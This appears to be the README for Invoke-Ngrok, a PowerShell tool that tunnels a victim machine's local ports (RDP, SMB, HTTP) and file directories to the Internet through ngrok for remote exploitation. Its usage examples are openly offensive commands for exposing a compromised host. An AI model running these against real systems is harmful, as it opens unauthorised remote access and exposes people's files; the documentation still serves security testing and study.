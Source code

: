 # INVOKE-NGROK 
 
Expose local port of a remote victim over Internet. 
Use it to exploit or access local service remotely without public IP (RDP, SQL, SSH, SMB, FTP ...)

Help:
      Parameters: 
		-auth : Your Ngrok API, go to ngrok dashborad to retreive it
		-tcp  : The protocol used by the service you want to expose remotely (tcp/http)
		-port : The port used by the service you want to expose remotely
		-custom : Customie ngrok parameters you want to execute
		-fileserver : Serve local file system over Internet
	example:

	Invoke-Ngrok -auth xxxxxxxxx -protocol tcp -port 3389  # Expose RDP session over Internet 
	Invoke-Ngrok -auth xxxxxxxxx -protocol tcp -port 445   # Expose SMB port over Internet
	Invoke-Ngrok -auth xxxxxxxxx -protocol http -port 80   # Expose HTTP port over Internet
	
	Invoke-Ngrok -auth xxxxxxxxx -fileserver "C:\Users\alan" # Expose local file system directories over internet
	
	Invoke-Ngrok -custom "http -region=us -hostname=dev.example.com 8000"   #Custom ngrok command you want to execute. 
	
Author: @ThebenyGreen
  - EyesOpenSecurity

Credits -  inconshreveable - <alan@ngrok.com> 
